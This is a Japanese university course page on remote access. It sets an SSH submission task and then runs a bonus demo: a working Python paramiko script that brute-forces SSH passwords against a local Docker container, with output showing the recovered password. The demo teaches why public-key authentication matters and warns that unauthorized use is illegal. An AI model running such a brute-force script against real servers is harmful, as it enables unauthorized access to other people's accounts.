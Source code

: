 # 課題

!!! Warning
    課題１と２は、Codespaceで行ってはいけません。情報漏洩のリスクがあります。  
    間違えてやってしまった場合は、早急にTAに連絡してください。

## 課題１（当日のみUTokyo-VPN不要）
559のサーバーであるdover.eps.s.u-tokyo.ac.jpにSSHでログインしてください。  
次に、課題１で手元に持ってきたkadai.txtに対する答えを、doverの/home0/akutagawa2024/submitディレクトリに送ってください。  
ファイルの名前は、(アカウント名).txtでお願いします。  
※3日後にはUTokyo-VPN経由でのみアクセス可能な設定に戻します。


## おまけ：パスワード認証SSHサーバーに対するサイバー攻撃
公開鍵認証の大切さを知るために、サイバー攻撃の流れを見てみましょう。

実際に取り組めるようにしているので、余裕のある方はハッカー(正確にはクラッカー)になったつもりでやってみてください。Codespaceで行うのが楽かなと思います。  
かなり都合の良い展開が続きますが、それは上手くいくようにわざとセットしたからです。

!!! Warning
    許可無く他のサーバーに以下のことを行った場合、ほぼ間違いなく法に触れることになります。  
    決して行ってはいけません。  

---

ログインサーバー(559で言うところのdover)へ遠隔ログインを試みます。  
この際、あなたはOSINT等によりユーザー名「chibutsu」は推測できたものの、パスワードは分からないことが前提です。つまり不正ログインをしようとしているわけです。  
どのようにパスワードを入手しますか？　自分の長所を活かした方法を考えてみてください。

---

今回は計算機演習の授業なので、コンピュータ内で完結する手法の1つを紹介します。  
心理学的な攻撃を思いついた方は、「ソーシャルエンジニアリング」で検索してみてください。

---

今回は軽量コンテナであるdockerを用いて仮想的なログインサーバーを作り、それを攻撃します。   
自分のPCにdockerをインストールするか、Codespaceを使ってください。559のMac miniにはインストールされていません。

---

以下、Codespaceで行う場合の手順です。  
まずは、`/workspaces/chibutsu-utokyo.github.io/docs/RemoteAccess`に移動して、docker_setup.shを実行してください。少し時間がかかります。
```
$ cd /workspaces/chibutsu-utokyo.github.io/docs/RemoteAccess

# 権限を要求された場合
$ chmod 700 docker_setup.sh
$ ./docker_setup.sh
```
上手くいけば、以下のようなメッセージが表示されるはずです。
```
dockerコンテナの準備が完了しました。
'ssh ユーザー名@localhost -p 22222'でSSHログインができます。
```

試しにSSHしてみましょう。パスワードは今のところ分からないはずなので、適当に入力してください。
```
$ ssh chibutsu@localhost -p 22222
The authenticity of host '[localhost]:22222 ([::1]:22222)' can't be established.
ECDSA key fingerprint is SHA256:7CsZMUdMUJCx9qX89ZxRaUj2s8u8MBnuB2NUFZK+W4A.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[localhost]:22222' (ECDSA) to the list of known hosts.
chibutsu@localhost's password: 
Permission denied, please try again.
chibutsu@localhost's password: 
Permission denied, please try again.
chibutsu@localhost's password: 
chibutsu@localhost: Permission denied (publickey,password).
```
当たり前ですがログインできません…

---

今回はブルートフォース攻撃(総当たり攻撃)をやってみようと思います。あり得そうなパスワードのリストを片っ端から試す攻撃手法です。  

調査の結果、「chibutsu」さんは東京大学の地球惑星物理学科に所属する学生であることが分かりました。
主に固体地球・大気海洋・宇宙惑星が好きな学生が所属する機関らしいです。  
この情報を元にChatGPTにパスワードリストを作成してもらい、passwords.txtに保存しました。  

それでは、このパスワードリストを用いてSSHログインを試しましょう。  
シェルスクリプトで攻撃コードを組むのは意外と大変なので、Pythonで組みました。  
理解できなくても良いので、bruteforce_ssh.pyを眺めてみてください。Pythonの授業が終わる頃には、何をしているかなんとなく分かるようになっているはずです。 

```
# bruteforce_ssh.py

import paramiko 
import time
import sys


passwords_path = "passwords.txt" # パスワードリストの場所

# ssh ユーザー名@localhost -p 22222
HOST = "localhost" # SSH接続先
PORT = 22222 # SSH接続のためのポート番号。今回は22222。
USER = "chibutsu" # ユーザー名

# パスワードリストからパスワードを読み込んでSSH接続を試みる。
# 接続が成功したらプログラムを終了させる。
# 失敗したら次のパスワードを試す。
with open(passwords_path, "r") as file:

    for PASSWORD in file:

        # 改行コードを取り除く
        PASSWORD = PASSWORD.replace("\n", "")

        ssh = paramiko.SSHClient()
        ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        
        try:
            ssh.connect(hostname=HOST, port=PORT, username=USER, password=PASSWORD)
            print()
            print("SUCCESS!")
            print(f"username : {USER}")
            print(f"password : {PASSWORD}")

            sys.exit()
        except paramiko.AuthenticationException:
            print(f"{PASSWORD} is not correct...")
        finally:
            ssh.close()
```

!!! Note
    paramikoというライブラリが必要です。`pip install paramiko`でインストールしてください。

このコードを試した結果、パスワードが判明しました。
```
$ python bruteforce_ssh.py 
earth is not correct...
planet is not correct...
physics is not correct...
...
tornado is not correct...
storm is not correct...

SUCCESS!
username : chibutsu
password : aurora
```

SSHログインします。
```
$ ssh chibutsu@localhost -p 22222
chibutsu@localhost's password:  # "aurora"と入力
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 6.5.0-1017-azure x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
chibutsu@960522125acf:~$ 
```

これで不正ログイン完了です。 

ここからは権限昇格を狙ったりバックドアを仕込んだりしますが、これ以上は行いません。  
ここまでお付き合いいただきありがとうございました。  

---

公開鍵認証が大切だと少しでも感じていただけた方は設定をお願いします。  
[SSHのページ](SSH.md)

